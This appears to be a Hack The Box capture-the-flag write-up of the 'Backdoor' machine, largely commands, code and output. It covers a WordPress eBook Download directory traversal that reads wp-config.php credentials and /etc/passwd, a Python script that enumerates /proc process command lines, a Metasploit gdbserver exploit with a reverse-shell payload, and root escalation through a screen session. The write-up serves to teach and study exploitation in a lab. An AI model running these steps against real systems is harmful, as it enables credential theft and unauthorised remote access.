

<p align="center"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/79623">hkabubaker17</a></p>

[](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## `80/tcp`
Let's run a `wpscan`:
```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# wpscan --url http://backdoor.htb/ --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive -e vp,vt,tt,cb,dbe,u,m --api-token <Removed>
...
[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 ...
```

## Directory Traversal
https://www.exploit-db.com/exploits/39575

`../../wp-config.php` has MySQL credentials obviously but we can't use them as there's no externally listening mysql service on remote host.

```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php | grep 'DB_' | head -n 4
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
define( 'DB_HOST', 'localhost' );
```
```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd | grep -P '100\d'
user:x:1000:1000:user:/home/user:/bin/bash
```
Tried mysql passord to ssh but no avail.<br>
Considering this is a path traversal and not LFI, I don't think there's an RCE, apache log poisoning or header injection moves forward from this point.<br>
Chances are we can enumerate network and processes on the remote host.<br>

## Enumerating TCP listening ports through `/proc/net/tcp`
```console
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/net/tcp | sed -e 's/^\/proc\/net\/tcp\/proc\/net\/tcp\/proc\/net\/tcp//g' -e 's/<script>window.close()<\/script>$//g'
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 0100007F:8124 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 34640 1 0000000000000000 100 0 0 10 0                     
   1: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   113        0 34642 1 0000000000000000 100 0 0 10 0                     
   2: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 32150 1 0000000000000000 100 0 0 10 0                     
   3: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 33858 1 0000000000000000 100 0 0 10 0                     
   4: 7D0B0A0A:A5DC 01010101:0035 02 00000001:00000000 01:000002D4 00000003   101        0 217606 2 0000000000000000 800 0 0 1 7                     
   5: 7D0B0A0A:0539 0F0E0A0A:9E48 01 00000000:00000000 02:00096761 00000000  1000        0 171898 2 0000000000000000 26 4 30 10 7                    
                                                                                                                                                                                             
┌──(root💀f4T1H)-[~/hackthebox/backdoor]
└─# echo $((16#0539))
1337
```

In the last line, we can see a listening process which is done by `user`, converting its listening port number from hexadecimal to decimal gives us `1337`.

## Brute forcing running processes /proc/{PID}

Here's the script I wrote to brutefore commands for relative Process IDs.

___Attention___: _I recommend you to reset the box before running this script as the more machine stays alive, the bigger PIDs become._

#### brute.py
```python
#!/usr/bin/env python3
import requests
import re

url = 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='
for i in range(0, 100000):
    try:
        path = f"/proc/{i}/cmdline"
        pattern = r"({}){}(.*)<script>window\.close\(\)</script>".format(path, '{3}')
        r = requests.get(url+path)
        match = re.match(pattern, r.content.decode('utf-8'))
        cmd = match.group(2)
        if cmd:
            print(f"PID {i} {cmd}")

    except KeyboardInterrupt:
        exit()

    except Exception as e:
        print(f"Program crashed because of:\n{e}")
        exit()
```

Time for a coffee break ☕

After some time, I noticed a process related with port `1337/tcp`.

```console
PID 879 /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

Here we managed to find out what's actually going on on `tcp/1337`, there's a `gdbserver` listening!


# Foothold: GDB Server Remote Payload Execution
There's an msf module for the exploit, let's try it.

```console
msf6 > use exploit/multi/gdb/gdb_server_exec 
msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rhost 10.10.11.125
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost tun0
msf6 exploit(multi/gdb/gdb_server_exec) > exploit
```

# Privilege Escalation: Screen Cronjob

Enumerating running processes again gives us a `cronjob` which is a `while` loop again!

```console
root         811     808  0 12:48 ?        00:00:00  \_ /usr/sbin/CRON -f
root         844     811  0 12:48 ?        00:00:00      \_ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
root       25736     844  0 13:20 ?        00:00:00          \_ sleep 1
```

#### find
- `-empty`: Is a test that returns `true` if there's no file or empty file.
- `-exec`: Executes, yes.

#### screen
is a utility that provides the ability of using multiple shell sessions.

- `-dmS`: Starts screen session in detached mode as daemon.
- `root`: The name of the session started.

So here we can get root privileges if we attach that daemonized detached screen session.

We can use either `screen -dr root/root` or `screen -x root/root`, both will work.

```console
root@Backdoor:~# cut -c1-21 root.txt
c1109f567183dfac2b1fa
```

---

# References

|__`Wordpress Plugin eBook Download 1.1 Directory Traversal`__|__https://www.exploit-db.com/exploits/39575__|
|:-|:-|

<br>

___─ Written by f4T1H ─___